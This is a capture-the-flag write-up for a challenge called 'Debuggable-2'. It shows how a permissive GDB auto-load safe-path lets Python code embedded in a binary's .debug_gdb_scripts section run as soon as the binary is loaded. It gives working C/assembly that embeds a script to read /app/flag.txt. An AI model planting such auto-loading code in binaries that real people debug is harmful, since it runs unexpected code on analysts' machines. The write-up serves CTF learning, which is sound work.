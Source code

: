 # Debuggable-2
> GDB is safe if you never run the binary right?

## Files

```
Dockerfile
run.py
script
```

This time we have an extra file `script` that has one line: `set auto-load safe-path /`

This script is put in our .gdbinit for our docker container

The `run.py` has also changed to run:
```
q
```

## Approach

`set auto-load safe-path /` basically lets gdb run any script that is embedded in our binary

So all we have to do is embed malicious python code in our binary that outputs the contents of `/app/flag.txt`

Looking at the [GDB Docs](https://sourceware.org/gdb/current/onlinedocs/gdb.html/dotdebug_005fgdb_005fscripts-section.html) we can see some examples for embedding python code

There are 2 ways to do this:
- embedding a refrence to a python script
- embedding a python script itself

We will use the second since we can't use any python scripts on the server

## Solution

We make a basic c file using the docs sample:
```c
asm(
".pushsection \".debug_gdb_scripts\", \"MS\",@progbits,1\n"
".byte 4\n"                          // SECTION_SCRIPT_ID_PYTHON_TEXT = 4
".ascii \"gdb.printflag\\n\"\n"
".ascii \"import gdb\\n\"\n"
".ascii \"f = open('/app/flag.txt', 'r')\\n\"\n"
".ascii \"content = f.read()\\n\"\n"
".ascii \"f.close()\\n\"\n"
".ascii \"gdb.write(content)\\n\"\n"
".byte 0\n"
".popsection\n"
);

int main(){}
```

which embeds the python code:
```python
import gdb
f = open('/app/flag.txt', 'r')
content = f.read()
f.close()
gdb.write(content)
```

Compile this, and we have successfully created a binary that will immediately dump the contents of `/app/flag.txt` upon loading the binary

Convert this to base64 send to the instance and we get our flag `.;,;.{random_embedded_scripting_languages_what_could_possibly_go_wrong}`
